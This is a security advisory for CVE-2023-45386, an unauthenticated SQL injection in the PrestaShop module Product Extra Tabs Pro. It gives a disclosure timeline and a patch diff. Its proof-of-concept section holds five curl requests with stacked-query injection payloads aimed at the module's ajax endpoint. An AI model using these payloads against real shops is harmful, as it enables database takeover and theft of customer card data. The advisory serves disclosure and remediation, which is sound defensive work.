 ```yaml
---
layout: post
title: "[CVE-2023-45386] Improper neutralization of SQL parameter in MyPresta.eu - Product Extra Tabs Pro for PrestaShop"
categories: modules
author:
- TouchWeb.fr
- 202 Ecommerce
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,extratabspro"
severity: "critical (9.8)"
---
```


In the module "Product Extra Tabs Pro" (extratabspro) up to version 2.2.8 from MyPresta.eu for PrestaShop, a guest can perform SQL injection in affected versions.


## Summary

* **CVE ID**: [CVE-2023-45386](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-45386)
* **Published at**: 2023-10-12
* **Platform**: PrestaShop
* **Product**: extratabspro
* **Impacted release**: <= 2.2.7 (2.2.8 fixed the vulnerability)
* **Product author**: MyPresta.eu
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

Methods `extratabspro::searchcategory()`, `extratabspro::searchproduct()` and `extratabspro::searchmanufacturer()` have sensitive SQL calls that can be executed with a trivial http call and exploited to forge a SQL injection.

The exploit can be used even if the module is not activated.

**WARNING** : This exploit is actively used to deploy a webskimmer to massively steal credit cards.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Possible malicious usage

* Obtain admin access
* Remove data from the associated PrestaShop
* Copy/paste data from sensitive tables to FRONT to expose tokens and unlock admins's ajax scripts
* Rewrite SMTP settings to hijack emails


## Proof of concept


```bash
curl -v -X POST -d 'search_feature=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'searchsupplier=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search_product=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
curl -v -X POST -d 'search_manufacturer=1";select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://preprod.X/modules/extratabspro/ajax_extratabspro.php'
```

## Patch from 2.2.7

```diff
--- 2.2.7/extratabspro/extratabspro.php
+++ 2.2.8/extratabspro/extratabspro.php
...
public function searchsupplier($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_supplier`,`name` FROM `' . _DB_PREFIX_ . 'supplier` WHERE `name` like "%' . $search . '%" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_supplier`,`name` FROM `' . _DB_PREFIX_ . 'supplier` WHERE `name` like "%' . pSQL($search) . '%" LIMIT 10');
    }

    public function getSuppliers($id)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_supplier` FROM `' . _DB_PREFIX_ . 'product_supplier` WHERE `id_product`= ' . $id . ' GROUP BY id_supplier');
+       return Db::getInstance()->ExecuteS('SELECT `id_supplier` FROM `' . _DB_PREFIX_ . 'product_supplier` WHERE `id_product`= ' . (int) $id . ' GROUP BY id_supplier');
    }

    public function searchfeature($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_feature_value`,`value` as name FROM `' . _DB_PREFIX_ . 'feature_value_lang` WHERE `value` like "%' . (string )$search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_feature_value`,`value` as name FROM `' . _DB_PREFIX_ . 'feature_value_lang` WHERE `value` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" LIMIT 10');
    }

    public function searchcategory($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_category`,`name` FROM `' . _DB_PREFIX_ . 'category_lang` WHERE `name` like "%' . $search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_category`,`name` FROM `' . _DB_PREFIX_ . 'category_lang` WHERE `name` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }

    public function searchproduct($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT `id_product`,`name` FROM `' . _DB_PREFIX_ . 'product_lang` WHERE `name` like "%' . $search . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT `id_product`,`name` FROM `' . _DB_PREFIX_ . 'product_lang` WHERE `name` like "%' . pSQL($search) . '%" AND id_lang="' . Configuration::get('PS_LANG_DEFAULT') . '" AND id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }

    public function searchmanufacturer($search)
    {
-       return Db::getInstance()->ExecuteS('SELECT m.`id_manufacturer`,m.`name` FROM `' . _DB_PREFIX_ . 'manufacturer` m LEFT JOIN `' . _DB_PREFIX_ . 'manufacturer_shop` ms ON ms.id_manufacturer = m.id_manufacturer WHERE `name` like "%' . $search . '%" AND ms.id_shop="' . $this->context->shop->id . '" LIMIT 10');
+       return Db::getInstance()->ExecuteS('SELECT m.`id_manufacturer`,m.`name` FROM `' . _DB_PREFIX_ . 'manufacturer` m LEFT JOIN `' . _DB_PREFIX_ . 'manufacturer_shop` ms ON ms.id_manufacturer = m.id_manufacturer WHERE `name` like "%' . pSQL($search) . '%" AND ms.id_shop="' . $this->context->shop->id . '" LIMIT 10');
    }
```

## Other recommendations

* It’s recommended to upgrade to the latest version of the module **extratabspro**.
* Upgrade PrestaShop to the latest version to disable multiquery executions (separated by “;”) - be warned that this functionality **WILL NOT** protect your SHOP against injection SQL which uses the UNION clause to steal data.
* Change the default database prefix `ps_` with a new longer, arbitrary prefix. Nevertheless, be warned that this is useless against blackhats with DBA senior skill because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against this set of rules.

## Timeline

| Date | Action |
|--|--|
| 2023-04-27 | Issue discovered during a code review by [TouchWeb.fr](https://www.touchweb.fr) |
| 2023-04-28 | Contact Author to confirm version scope |
| 2023-04-28 | Request a CVE ID |
| 2023-05-23 | Author confirm version scope |
| 2023-05-23 | Recontact author to get fixed version of the module to confirm fix |
| 2023-09-26 | Relaunch author to get fixed version of the module to confirm fix |
| 2023-09-26 | Author give the archive of the fix version of the module - fix confirmed |
| 2023-10-11 | Received CVE ID |
| 2023-10-12 | Publish this security advisory |

## Links

* [Author product page](https://mypresta.eu/modules/front-office-features/product-extra-tabs-pro.html)
* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2023-45386)
